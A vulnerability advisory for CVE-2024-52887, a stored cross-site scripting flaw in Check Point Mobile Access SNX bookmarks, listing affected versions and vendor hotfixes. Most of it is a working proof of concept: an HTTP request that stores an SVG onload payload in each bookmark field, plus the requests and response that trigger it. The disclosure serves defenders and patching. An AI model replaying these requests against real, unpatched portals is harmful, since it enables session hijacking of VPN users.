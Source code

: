 # CVE-2024-52887
Check Point Mobile Access portal SNX bookmarks  - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal SNX bookmarks. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

Payload can be saved using following request:
```
POST /sslvpn/Portal/SaveSNXFavorite HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 205
Origin: [REDACTED]
Connection: keep-alive

Title=%3Csvg+onload%3Dalert(document.domain)%3E&Path=%3Csvg+onload%3Dalert(document.domain)%3E&Params=%3Csvg+onload%3Dalert(document.domain)%3E&Tooltip=%3Csvg+onload%3Dalert(document.domain)%3E&Id=93981731
```

After that, payload can be loaded using following request:
```
GET /sslvpn/SNX/GetSnxBookmarks HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: pl,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This results in XSS:
```
HTTP/1.1 200 OK
Date: Fri, 06 Sep 2024 09:06:40 GMT
Strict-Transport-Security: max-age=31536000; includeSubDomains
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Cache-Control: no-store
Vary: User-Agent
Content-Length: 2623
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"returnCode":0,"SnxAppsArray":[{"type":0,"embeddedAppType":"","url":"","title":"<svg onload=alert(document.domain)>","tooltip":"<svg onload=alert(document.domain)>","path":"<svg onload=alert(document.domain)>","params":"<svg onload=alert(document.domain)>",

[...]
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183054. ￼

### References
* https://support.checkpoint.com/results/sk/sk183054
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52887
* https://www.cve.org/CVERecord?id=CVE-2024-52887
